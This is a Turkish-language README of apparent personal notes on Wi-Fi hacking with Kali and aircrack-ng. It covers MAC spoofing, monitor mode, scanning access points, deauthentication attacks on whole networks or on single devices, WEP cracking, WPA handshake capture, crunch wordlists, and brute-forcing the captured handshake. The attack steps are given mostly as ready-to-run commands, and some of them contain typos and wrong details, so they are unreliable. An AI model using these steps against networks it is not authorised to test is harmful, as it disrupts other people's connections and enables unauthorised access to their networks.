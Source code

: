 # Cyber Security
- [1-VPN DNS MAC](#1-VPN-DNS-MAC)
  - [VPN Book](#VPN-Book)
  - [Kali DNS Ayarları Değiştirme](#Kali-DNS-Ayarları-Değiştirme)
  - [DNS Sızıntı Testi](#DNS-Sızıntı-Testi)
  - [MAC Adresi Değiştirme](#MAC-Adresi-Değiştirme)
- [2-Monitör Mod ve Manage Mod](#2-Monitör-Mod-ve-Manage-Mod)
- [3-Çevredeki Modemleri Bulma](#3-Çevredeki-Modemleri-Bulma)
- [4-Deauth Saldırısı Yapma](#4-Deauth-Saldırısı-Yapma)
  - [Ağdaki Cihazların MAC Adreslerini Görme](#Ağdaki-Cihazların-MAC-Adreslerini-Görme)
  - [Ağdaki Cihazlara Deauth Saldırısı Yapma](#Ağdaki-Cihazlara-Deauth-Saldırısı-Yapma)
    - [Ağdaki Bütün Cihazlara Saldırı](#Ağdaki-Bütün-Cihazlara-Saldırı)
    - [Ağdaki Belirli Cihaza Saldırı](#Ağdaki-Belirli-Cihaza-Saldırı)
- [5-Wifi Parola Kırma](#5-Wifi-Parola-Kırma)
  - [WEB Parola Kırma](#WEB-Parola-Kırma)
  - [VPA ve VPA2 Parola Kırma](#VPA-ve-VPA2-Parola-Kırma)
    - [Handshake Yakalama](#Handshake-Yakalama)
    - [Wordlist Oluşturma](#Wordlist-Oluşturma)
    - [Parola Kırma](#Parola-Kırma)



# 1-VPN DNS MAC 

VPN (Virtual Personal Network)

DNS (Domain Name Server)

```iwconfig``` -> bağlı olduğumuz wifi ile ilgili bilgileri detaylı olarak gösterir

### VPN Book

```wwww.vpnbook.com``` kali içine VPN indirmemizi sağlar

```openvpn vpnadı``` -> vpn dosyasını açar

```service network-manager restart``` -> internet sunucularını resetler

### Kali DNS Ayarları Değiştirme

```nano /etc/dhcp/dhclient.conf``` içindeki ```prepentt name servers ```değiştirmemiz gerekir

Google DNS-> 8.8.8.8 ya da 8.4.4.8
Cloudflare -> 1.1.1.1. ya da 1.0.0.1

### DNS Sızıntı Testi 

www..dnsleaktest.com

### MAC Adresi Değiştirme

> ### 1.Yöntem

```macchanger```ile mac adresimizi değiştirebiliriz ya da

> ### 2.Yöntem
```
ifconfig wlan0 down

ifconfig wlan hw ether XX:XX:XX:XX:XX:XX  İstediğimiz MAC adresini yapmamızı sağlar

ifconfig wlan0 up
```

# 2-Monitör Mod ve Manage Mod

Wifi adaptörümüzü bilgisayarımıza bağlıyoruz, daha sonra kalimizi monitör moda almamız gerekiyor

> ### 1.Yöntem

```airmon -ng start wlan0```-> interneti monitör moda alır !! Monitör modda iken internete bağlanamayız sadece bağlı olmadığımız ağların bilgilerini elde edebiliriz

```airmon -ng stop wlan0``` -> interneti manage moda alır 

> ### 2.Yöntem
```
ifconfig wlan0 down

ifconfig wlan0 mode monitor

ifconfig wlan0 up
```

# 3-Çevredeki Modemleri Bulma

```airopdump -ng wlan0mon``` -> Çevredeki Modemleri Bulur

```CTRL + X ile işlemi sonlandırırız```

```
* pwr -> - Olarak ne kadar büyükse modem bize o kadar yakındır
* Data -> O ağa kaç cihazın bağlı olduğunu gösterir
* CH -> Hangi kanalda olduğunu gösterir
* ENC -> Şifreleme işlemi bilgisi
```

# 4-Deauth Saldırısı Yapma

### Ağdaki Cihazların MAC Adreslerini Görme
```
airodump -ng --channel X (kanal numarası) --bssid XX:XX:XX:XX:XX:XX (MAC adresi) --write airodumptest (Sonuçları yazdıracağımız 
dosya adı) wlan0
```
### Ağdaki Cihazlara Deauth Saldırısı Yapma

> ### Ağdaki Bütün Cihazlara Saldırı
```
aireplay -ng --deauth A -a XX:XX:XX:XX:XX:XX wlan0mon
```

> ### Ağdaki Belirli Cihaza Saldırı
```
aireplay -ng --deauth A -a XX:XX:XX:XX:XX:XX -c YY:YY:YY:YY:YY:YY wlan0mon
```

```
* A: Gönderilecek paket sayısı, sayı büyüdükçe ağda düşme süresi artar
* -a:  Ağın MAC adresi
* -c:  Saldırı Yapılacak Cihazın MAC adresi
```

# 5-Wifi Parola Kırma 

### WEB Parola Kırma 

Fakeauth saldırısı yapıyoruz ağdan birisi düşüp tekrar bağlanırsa handshake yakalamamız kolaylaşır

```aireplay -ng --fakeauth 0 -a XX:XX:XX:XX:XX:XX -h YY:YY:YY:YY:YY:YY wlan0mon```

```aireplay -ng --arpreplay -b XX:XX:XX:XX:XX:xX -h YY:YY:YY:YY:YY:YY wlan0mon``` belirlenen cihaza IV yollamamızı sağlar

Eğer Ağda Yeteri Kadar Cihaz Yoksa
* fakeauuth yolla
* arpreplay çalıştır
* aircrack -ng çalıştır

```aircrack -ng airodumptest.cap (Tarama Sırasında Yazdırdığımız Dosya)``` 

```192.168.1.1 modeminizin ara yüzüne giriş yaparsınız```

### VPA ve VPA2 Parola Kırma

www.gpuhash.me  -> içine yakalanan handshake'i atarak online olarak şifre kırma işlemi uygulanabilir

> ### Handshake Yakalama

``` airodump -ng --channel X --bssid XX:XX:XX:XX:XX:XX --write handshake-file wlan0mon```

```
channel: Ağın çalıştığı kanal
bssid: Ağın MAC adresi
write: Yakalanan handshake'in nereye kayıt edileceği
```

**! Kolayca handshake yakalamak için ufak paketli deauth saldırı yapılabilir**

> ### Wordlist Oluşturma

``` crunch 6 10 0123456789abcdefgh -o passwrd.txt``` 
içinde "0123456789abcdefgh" geçen min 6 maks 10 haneli şifre kombinasyonlarının olduğu passwrd isimli wordlist oluşturur

```filesystem/usr/shake/wordlist``` içinde en çok kullanılan şifrelerin bulunduğu wordlist

```cat wordlist.txt``` wordlistin içindeki şifreleri görmemizi sağlar

> ### Parola Kırma

``` aircrack -ng handshake-file.cap -w passwrd.txt``` handshake dosyasını ve worlisti kullanarak brute froce saldırısı yapar
